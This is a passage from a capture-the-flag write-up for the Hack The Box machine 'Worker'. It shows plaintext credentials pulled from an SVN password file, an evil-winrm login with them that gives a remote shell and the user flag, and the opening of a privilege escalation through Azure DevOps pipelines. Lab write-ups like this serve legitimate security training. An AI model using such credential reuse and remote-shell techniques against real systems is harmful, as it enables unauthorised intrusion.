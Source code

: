 Looking  at`W:\svnrepos\www\conf` we can find a password file (`passwd`). This contains credentials for one of the system-users (`robisl`:`wolves11`). 

### Getting shell as robisl

We can now use evil-winrm to login as the user.

```powershell
root@darkness:~# evil-winrm -u robisl -p wolves11 -i 10.10.10.203

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\robisl\Documents>
```

We now get a shell and can read user.txt.

```powershell
*Evil-WinRM* PS C:\Users\robisl\Desktop> type user.txt
326e1***************************
```

## Privesc - Root

Now that we have user, let privesc to root using Azure DevOps pipelines.

### Exploiting Azure DevOps pipelines

We can exploit Azure DevOps pipelines to execute any powershell script on the machines.

![Creating a new pipeline](/assets/htb/Worker/root/devops-new-pipeline.png)

Let us begin by creating a new pipeline.

